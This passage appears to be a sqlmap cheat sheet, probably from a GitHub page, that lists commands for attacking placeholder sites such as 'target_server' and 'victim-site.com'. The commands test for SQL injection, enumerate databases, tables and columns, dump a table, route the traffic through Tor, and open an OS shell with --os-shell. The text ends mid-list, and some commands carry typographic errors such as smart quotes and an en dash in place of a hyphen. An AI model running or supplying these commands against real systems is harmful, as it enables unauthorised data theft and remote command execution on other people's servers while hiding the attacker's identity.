     sqlmap -u “http://target_server/” --string=”This string if query is TRUE”

    sqlmap -u “http://target_server/” --not-string=”This string if query is FALSE”

# List databases

    sqlmap -u “http://target_server/” --dbs

# List tables of database target_DB

    sqlmap -u “http://target_server/” -D target_DB --tables

# Dump table target_Table of database target_DB

    sqlmap -u “http://target_server/” -D target_DB -T target_Table -dump

# List columns of table target_Table of database target_DB

    sqlmap -u “http://target_server/” -D target_DB -T target_Table --columns

# Scan through TOR

    sqlmap -u “http://target_server/” --tor --tor-type=SOCKS5

# Get OS Shell

    sqlmap -u “http://target_server/” --os-shell
    
    
# Running Standard Test:

* Test if website is vulnerable to SQL injection

Checking if website is vulnerable to SQL injection

The example we utilize a standard GET request. This will test different methods of SQL injections

sqlmap –u “https://victim-site.com/product.php?id=1”  

* Enumerate all columns in databases

  List all databases in the websites DB

sqlmap –u “https://victim-site.com/product.php?id=1”  --dbs

* List tables

Find out how many tables the database has and what the names are.

sqlmap –u “https://victim-site.com/product.php?id=1”  -D dbname --tables

* List columns of table selected DB
